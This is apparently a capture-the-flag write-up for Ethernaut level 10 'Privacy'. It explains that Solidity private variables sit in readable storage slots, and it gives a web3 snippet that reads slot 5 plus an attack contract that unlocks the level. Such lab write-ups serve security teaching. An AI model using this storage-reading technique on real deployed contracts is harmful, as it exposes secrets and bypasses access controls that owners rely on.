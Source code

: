 # Level 10: [Privacy](https://ethernaut.openzeppelin.com/level/0xcAac6e4994c2e21C5370528221c226D1076CfDAB)

## Level objectives:
- Unlock this contract to beat the level => set `locked = false` 
## Analysis
- To set `locked = false`, we must use the `unlock(bytes16 _data)` function as that's the only one changing state
of locked.
- The function reverts if we don't give it the correct data variable.
- `_data` is a private variable. It's in the slots 3-6. As some of the prev vars, are packed.
- We need `_data[2]` which is in the 5th slot.

## Code:
```js
web3.eth.getStorageAt("0x40a671cd5F6f7F8cda8Ce4486fC3fAbD82A5feA9", 5, "latest")
	.then(e => {
  	console.log(web3.eth.abi.decodeParameter('bytes32', e));
});

```

```sol
//SPDX-License-Identifier: MIT
pragma solidity ^0.8;

interface Privacy {
    function unlock(bytes16 _key) external;
}

contract AttackPrivacy {

    function attack(address _victim, bytes32 _data) public {
        Privacy victim = Privacy(_victim);
        victim.unlock(bytes16(_data));
    }
}
```
